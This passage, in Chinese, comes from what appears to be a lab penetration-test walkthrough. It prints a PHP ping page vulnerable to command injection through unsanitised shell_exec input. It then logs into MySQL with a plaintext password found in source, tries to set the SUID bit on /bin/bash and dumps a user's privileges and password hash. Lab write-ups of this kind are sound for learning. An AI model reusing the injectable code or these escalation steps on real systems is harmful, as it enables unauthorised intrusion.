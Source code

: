 ```yacas
                //print $query."<br>";
                $result = mysql_query($query);

                $row = mysql_fetch_array($result);
                //print "ID: ".$row['id']."<br />";
        }

?>

/* ping 命令注入时的 php 页面 */
> bash-3.00$ cat /var/www/html/pingit.php
<?php

print $_POST['ip'];
if (isset($_POST['submit'])){
        $target = $_REQUEST[ 'ip' ];
        echo '<pre>';
        echo shell_exec( 'ping -c 3 ' . $target );
        echo '</pre>';
    }
?>

```

尝试修改 `pingit.php` 提权发现没有权限，根据 `index.php` 的明文账号密码登录 MySQL

```yacas
bash-3.00$ mysql -u john -p
Enter password: hiroshima
// 进入 MySQL
// 反向 Shell 下指令输入似乎有问题，缓冲区内容不会立即输出
SELECT @@version;
@@version
4.1.22

SELECT @@plugin_dir;
ERROR 1193 (HY000) at line 2: Unknown system variable 'plugin_dir'

system chmod +s /bin/bash
chmod: changing permissions of `/bin/bash': Operation not permitted

select * from mysql.user where user = substring_index(user(), '@', 1)\G;
*************************** 1. row ***************************
                 Host: localhost
                 User: john
             Password: 5a6914ba69e02807
          Select_priv: Y
          Insert_priv: Y
          Update_priv: Y
          Delete_priv: Y
          Create_priv: N
            Drop_priv: N
          Reload_priv: N
        Shutdown_priv: N
         Process_priv: N
            File_priv: N		// 没有写入文件的权限
           Grant_priv: N
      References_priv: N
           Index_priv: N
           Alter_priv: N
         Show_db_priv: N
           Super_priv: N		// 不是管理员
Create_tmp_table_priv: N
     Lock_tables_priv: N
```